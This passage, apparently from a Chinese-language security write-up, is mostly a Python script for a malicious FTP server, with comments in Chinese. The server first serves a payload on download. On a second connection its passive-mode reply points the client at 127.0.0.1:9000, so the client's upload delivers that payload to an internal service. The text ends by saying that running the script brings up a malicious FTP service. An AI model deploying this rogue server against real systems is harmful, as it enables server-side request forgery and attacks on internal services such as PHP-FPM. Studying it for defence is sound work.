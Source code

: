 ```python
    conn.send(b"200 \n")
    print(conn.recv(20))  # USER aaa\r\n  客户端传来用户名
    if count == 1:
        conn.send(b"220 ready\n")
    else:
        conn.send(b"200 ready\n")

    print(conn.recv(20))   # TYPE I\r\n  客户端告诉服务端以什么格式传输数据，TYPE I表示二进制， TYPE A表示文本
    if count == 1:
        conn.send(b"215 \n")
    else:
        conn.send(b"200 \n")

    print(conn.recv(20))  # SIZE /123\r\n  客户端询问文件/123的大小
    if count == 1:
        conn.send(b"213 3 \n")  
    else:
        conn.send(b"300 \n")

    print(conn.recv(20))  # EPSV\r\n'
    conn.send(b"200 \n")

    print(conn.recv(20))   # PASV\r\n  客户端告诉服务端进入被动连接模式
    if count == 1:
        conn.send(b"227 192,168,1,7,4,210\n")  # 服务端告诉客户端需要到哪个ip:port去获取数据,ip,port都是用逗号隔开，其中端口的计算规则为：4*256+210=1234
    else:
        conn.send(b"227 127,0,0,1,35,40\n")  # 端口计算规则：35*256+40=9000

    print(conn.recv(20))  # 第一次连接会收到命令RETR /123\r\n，第二次连接会收到STOR /123\r\n
    if count == 1:
        conn.send(b"125 \n") # 告诉客户端可以开始数据连接了
        # 新建一个socket给服务端返回我们的payload
        print("建立连接!")
        conn2, address2 = sk2.accept()
        conn2.send(payload)
        conn2.close()
        print("断开连接!")
    else:
        conn.send(b"150 \n")
        print(conn.recv(20))
        exit()

    # 第一次连接是下载文件，需要告诉客户端下载已经结束
    if count == 1:
        conn.send(b"226 \n")
    conn.close()
    count += 1
```

运行上述脚本，一个恶意ftp服务就起来了：
